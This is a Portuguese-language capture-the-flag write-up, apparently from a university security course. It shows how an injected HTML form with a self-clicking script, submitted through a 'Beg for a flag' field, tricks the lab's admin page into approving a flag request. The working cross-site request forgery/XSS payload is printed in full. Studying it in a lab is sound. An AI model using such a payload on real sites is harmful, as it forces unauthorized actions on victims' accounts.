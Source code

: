 # CTF #6 - Apply For a Flag II

Primeiramente, notamos que, quando clicamos no botão **submit**, no site `http://ctf-fsi.fe.up.pt:5004/request`, e no botão **page**, somos redirecionados para o site `http://ctf-fsi.fe.up.pt:5005/request/84da570ff0bfd81b1d9adf6064053920675bf1e3`, em que **84da570ff0bfd81b1d9adf6064053920675bf1e3** é o **id** do pedido, que possui 2 botões que representam as 2 escolhas que o admin pode ter em relação ao pedido da flag: **Give the flag** e **Mark as read**.<br>

Analisando o **html** da página notamos que o botão **Give the flag** está envolvido num **forms** da seguinte forma:

```html
<form method="POST" action="/request/84da570ff0bfd81b1d9adf6064053920675bf1e3/approve" role="form">
    <div class="submit">       
        <input type="submit" id="giveflag" value="Give the flag" disabled>       
    </div>
</form>
```

Portanto, para construirmos o nosso ataque, fizemos o seguinte:

- Retiramos a flag **disabled** do input que tem o botão
- Adicionamos `http://ctf-fsi.fe.up.pt:5005` ao início do link da action do forms
- Criamos um script que vai clicar no botão com o **id** `giveflag` e submeter o forms logo após o código correr

No final, o forms que submetemos no input `Beg for a flag` foi o seguinte:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/84da570ff0bfd81b1d9adf6064053920675bf1e3/approve" role="form">     
	<div class="submit">                  
		<input type="submit" id="giveflag" value="Give the flag">
	</div>  
	<script> 
        document.getElementById("giveflag").click();
    </script>
</form>
```

Por fim, para concluir o nosso ataque, tivemos que desativar o javascript, através das definições do browser, para impedir que fossemos redirecionados.

Após submeter o forms alterado no input `Beg for a flag` e desativado o javascript, basta dar refresh à página que a flag estará presente onde costuma estar escrito **Your request hasn't been evaluated yet!**.
